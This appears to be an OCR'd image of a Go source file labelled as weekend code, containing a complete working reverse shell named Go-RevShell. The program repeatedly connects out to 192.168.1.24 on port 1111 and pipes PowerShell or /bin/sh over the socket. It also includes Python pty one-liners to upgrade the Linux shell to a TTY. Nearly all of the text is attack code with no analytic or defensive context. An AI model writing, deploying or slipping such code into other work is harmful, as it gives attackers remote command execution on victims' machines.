 # Sauvegarde du code du dimanche

    package main
    
    import (
    	"bufio"
    	"net"
    	"os/exec"
    	"runtime"
    	"strconv"
    	"strings"
    	"time"
    )
    
    const banner string = `
      ____                   ____                   ____    _              _   _
     / ___|   ___           |  _ \    ___  __   __ / ___|  | |__     ___  | | | |
    | |  _   / _ \   _____  | |_) |  / _ \ \ \ / / \___ \  | '_ \   / _ \ | | | |
    | |_| | | (_) | |_____| |  _ <  |  __/  \ V /   ___) | | | | | |  __/ | | | |
     \____|  \___/          |_| \_\  \___|   \_/   |____/  |_| |_|  \___| |_| |_|
    
    `
    
    var linuxPayloadsTTY = []string{`/usr/bin/env python -c 'import pty; pty.spawn("/bin/bash")'`, `/usr/bin/env python2.7 -c 'import pty; pty.    spawn("/bin/bash")'`, `/usr/bin/env python3 -c 'import pty; pty.spawn("/bin/bash")'`}
    
    func main() {
    	reverseShell("192.168.1.24", 1111)
    }
    
    func reverseShell(host string, port int) {
    	for {
    		connexion, err := net.Dial("tcp", host+":"+strconv.Itoa(port))
    		if err != nil {
    			time.Sleep(2 * time.Second)
    		} else {
    			connexion.Write([]byte(banner + "[+] Connected to " + connexion.LocalAddr().String() + "\nType \"quit\" to close the shell     properly or the process will die server side.\n"))
    			spawnInteractiveShell(connexion)
    		}
    	}
    }
    
    func spawnInteractiveShell(connexion net.Conn) {
    interactiveShell:
    	for {
    		connexion.Write([]byte("[Go-RevShell@" + connexion.LocalAddr().String() + "] > "))
    		clientEntry, _ := bufio.NewReader(connexion).ReadString('\n')
    		clientEntry = strings.TrimSuffix(clientEntry, "\n")
    		switch clientEntry {
    		case "quit":
    			break interactiveShell
    		case "shell":
    			if runtime.GOOS == "windows" {
    				spawnShell(connexion, "powershell.exe")
    			} else {
    				spawnLinuxTTYShell(connexion, "/bin/sh")
    			}
    		default:
    			connexion.Write([]byte("	[x] Type \"help\" to display this menu.\n	[x] Type \"quit\" to leave the interactive shell.\n	[x]     Type \"shell\" to spawn a shell on the server.\n"))
    		}
    	}
    	connexion.Close()
    }
    
    func spawnShell(connexion net.Conn, shellProgram string, arguments ...string) {
    	connexion.Write([]byte("[+] Welcome to Go-RevShell server side.\n[x] To get back to normal shell, please type \"exit\" and then press     enter two times. You can type any command.\n"))
    	shell := exec.Command(shellProgram, arguments...)
    	shell.Stdout, shell.Stderr, shell.Stdin = connexion, connexion, connexion
    	shell.Run()
    }
    
    func spawnLinuxTTYShell(connexion net.Conn, shellProgram string) {
    	payload := findWorkingPayload(connexion, shellProgram)
    	if payload != "" {
    		spawnShell(connexion, shellProgram, "-c", payload)
    	} else {
    		spawnShell(connexion, shellProgram)
    	}
    }
    
    func findWorkingPayload(connexion net.Conn, shellProgram string) string {
    	for _, payload := range linuxPayloadsTTY {
    		err := exec.Command(shellProgram, "-c", strings.Replace(payload, "/bin/bash", "/bin/bash -c exit 0", -1)).Run()
    		if err == nil {
    			return payload
    		}
    	}
    	return ""
    }
    